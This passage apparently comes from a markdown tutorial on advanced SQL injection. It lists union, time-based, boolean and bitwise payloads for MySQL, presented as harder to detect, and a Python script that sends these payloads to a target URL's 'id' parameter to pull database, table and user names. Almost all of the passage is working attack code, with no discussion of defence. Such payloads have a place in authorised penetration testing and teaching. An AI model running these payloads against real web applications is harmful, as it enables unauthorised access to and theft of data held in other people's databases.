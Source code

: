 ### Using Bitwise Operations

Use bitwise operations for more obfuscation and complexity:
```sql
' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) --
```

## 4. Combining Techniques

Combine multiple advanced techniques for robust and harder-to-detect payloads.

**Example: Union with Time-Based Injection**

Create a payload that uses both union and time-based injections:
```sql
' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 --
```

**Example: Nested Union and Boolean Injection**

Combine nested boolean conditions with union-based data extraction:
```sql
' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 --
```

## 5. Automating with Custom Scripts

Automate these advanced techniques using custom scripts to efficiently test and extract data.

**Example: Python Script for Advanced Union Injection**

```python
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # Advanced Union-Based Injections
    "' UNION SELECT 1, version(), database(), user() FROM dual WHERE 1=CAST((SELECT COUNT(*) FROM information_schema.tables) AS INT) -- ",
    "' UNION SELECT 1, 0x62656e6368, 0x70617373776f7264, user() -- ",
    "' UNION SELECT 1, database(), (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), user() -- ",
    "' UNION SELECT 1, (SELECT column_name FROM db1.table1 LIMIT 1), (SELECT column_name FROM db2.table2 LIMIT 1), user() -- ",
    # Advanced Boolean-Based Injections
    "' AND IF((SELECT LENGTH(database()))>5, SLEEP(5), 0) -- ",
    "' AND IF((SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1), 1, 1))='a', SLEEP(5), 0) -- ",
    "' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables), 1) -- ",
    "' AND IF((SELECT ASCII(SUBSTRING((SELECT database()),1,1))) & 1, SLEEP(5), 0) -- ",
    # Combined Techniques
    "' UNION SELECT IF((SELECT LENGTH(database()))>5, SLEEP(5), 0), 1, user(), 4 -- ",
    "' UNION SELECT 1, IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())>5, (SELECT table_name FROM information_schema.tables LIMIT 1), 1), 3, 4 -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n")
```
